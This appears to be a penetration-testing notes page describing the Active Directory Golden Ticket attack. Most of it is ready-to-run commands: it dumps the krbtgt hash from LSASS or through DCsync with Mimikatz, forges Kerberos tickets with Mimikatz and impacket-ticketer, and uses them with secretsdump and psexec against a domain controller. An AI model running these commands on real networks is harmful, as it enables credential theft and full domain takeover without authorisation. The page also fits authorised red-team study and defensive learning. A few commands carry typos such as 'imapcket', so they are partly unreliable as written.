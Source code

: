 # Golden Ticket

#### Priv Required: <mark style="color:purple;">krbtgt account hash</mark>

KRBTGT is the account used for Microsoft's implementation of Kerberos. The name is derived from Kerberos (KRB) and Ticket Granting Ticket (TGT). Essentially, this account acts as the service account for the Kerberos Distribution Center (KDC) service, which handles all Kerberos ticket requests. This account is used to encrypt and sign all Kerberos tickets for the domain (includes all domain forest). Since the password hash is shared by all domain controllers of all forest, they can then verify the authenticity of the received TGT when users request access to resources.

However, what if we want to generate our own TGTs to grant us access to everything? This is known as a **Golden Ticket attack**. In a Golden Ticket attack, we bypass the KDC altogether and create our own TGTs, essentially becoming a Ticket Granting Server (TGS). In order to forge TGTs, we need the following information:

* The FQDN of the domain
* The Security Identifier (SID) of the domain
* The username of the account we want to impersonate
* The KRBTGT password hash





#### Necessary Elements:

* **Domain SID**
* **NTLM hash** of **krbtgt account**
* **Domain name**
* **SIDS** (in Cross-Forest Attacks)

#### Methodology:

* Extract **Domain Admin** account's **NTML hash**
* Execute **Pass-the-Hash**
* Retrive **KRBTGT Account hash**
* **Forge** and use a Golden Ticket

## Get Domain Info

### SID

{% code title="From Windows" %}
```powershell
powershell -ep bypass
. .\PowerView.ps1

Get-DomainSID
```
{% endcode %}

{% code title="Powershell" %}
```powershell
whoami /all
```
{% endcode %}

{% code title="From Linux - Impacket" %}
```bash
cd /usr/share/doc/python3-impacket/examples/ # Kali location
lookupsid.py -hashes '$LMhash:$NThash' '$DOMAIN/$USER@$DOMAIN_CONTROLLER' 0
```
{% endcode %}

## Get Domain Admin Account

the first task is obtained a Domain Admin user account with elevated privilege into Domain Controller.

We can use Pass-the-Hash, crack password hash or find plain-text password.

{% content-ref url="../ad-lateral-movement/pass-the-hash.md" %}
[pass-the-hash.md](../ad-lateral-movement/pass-the-hash.md)
{% endcontent-ref %}

{% content-ref url="../ad-enumeration/password-sprayng.md" %}
[password-sprayng.md](../ad-enumeration/password-sprayng.md)
{% endcontent-ref %}

{% content-ref url="../ad-post-compromise-attacks/kerberoasting.md" %}
[kerberoasting.md](../ad-post-compromise-attacks/kerberoasting.md)
{% endcontent-ref %}

Or other ways...

## Get krbtgt's NTLM hash

The second task is obtain the NTLM hash of the krbtgt account. These are the methods to obtain it:

### LSASS

```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computer $DC_NAME

Invoke-Mimikatz -Command '"lsadump::lsa /inject /name:krbtgt"' -Computer $DC_NAME
```

<figure><img src="../../../.gitbook/assets/image (110).png" alt=""><figcaption></figcaption></figure>

### NT Directory Services (NTDS.dll)

...

### DCsync attack

To acquire the NTLM hash of the krbtgt account, various methods can be employed. It can be extracted from the Local Security Authority Subsystem (LSASS) process or the NT Directory Services (NTDS.dll) file located on any Domain controller (DC) within the domain.\
Furthermore, executing a DCsync attack is another strategy to obtain this NTLM hash, which can be performed using tools such as the "lsadump::dcsync" in Mimikatz or the secretsdump.py script by Impacket. It's important to unserscore that to undertake these operations, domain admin pribileges or a similar level of access is typically required.

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:DOMAIN\krbtgt"'
```



## Forge Golden Ticket



{% code title="From Windows - Invoke-Mimikatz" overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:$DOMAIN.local /sid:$DOMAIN_SID /krbtgt:$NTLM_HASH_KRBTGT /id:500 /groups:512 /startoffset:0 /end:600 /renewmax:10080 /ptt"'
```
{% endcode %}

> id:**500** or group\_id:**512** it's a default id of administrator user in windows



{% code title="From Linux - Impacket" overflow="wrap" %}
```bash
# Create the golden ticket (with an RC4 key, i.e. NT hash)
impacket-ticketer -nthash "$krbtgtNThash" -domain-sid "$domainSID" -domain "$DOMAIN" "$RANDOMUSER" -groups 512 -user-id 1114

# Create the golden ticket (with an AES 128/256bits key)
impacket-ticketer -aesKey "$krbtgtAESkey" -domain-sid "$domainSID" -domain "$DOMAIN" "randomuser" -groups 512 -user-id $TARGET_USER_ID

# Create the golden ticket (with an RC4 key, i.e. NT hash) with custom user/groups ids
impacket-ticketer -nthash "$krbtgtNThash" -domain-sid "$domainSID" -domain "$DOMAIN" -user-id "$USERID" -groups "$GROUPID1,$GROUPID2,..." "randomuser" -groups 512 -user-id $TARGET_USER_ID
```
{% endcode %}

{% hint style="warning" %}
Then target user must be in the Domain
{% endhint %}



Check the klist

```powershell
klist
```

## Use Golden Ticket

### mimikatz

Once we have created the Golden Ticket with mimikatz in the current session, we have to open a new cmd to the current privileges.

```powershell
mimikatz > misc::cmd # this open cmd promt with current privileges
```

### secretsdump.py

{% code overflow="wrap" %}
```bash
export KRB5CCNAME=$(pwd)/NAME.ccache

imapcket-secretsdump -no-pass -k -dc-ip $DC_IP $DOMAIN.local/$NAME@$MACHINE.$DOMAIN.local
```
{% endcode %}

### psexec

```bash
export KRB5CCNAME=$(pwd)/NAME.ccache

impacket-psexec administrator@<DC_IP> -k -no-pass
```

## GoldenCopy

You encounter limitations with your golden tickets (DACLs, detection)? GoldenCopy retrieves all the information (ID, groups, etc) of a specific user in a neo4j database (bloodhound) and prepares the mimikatz/ticketer command to impersonate his permissions.

{% embed url="https://github.com/Dramelac/GoldenCopy" %}



## Resources

{% embed url="https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/golden" %}







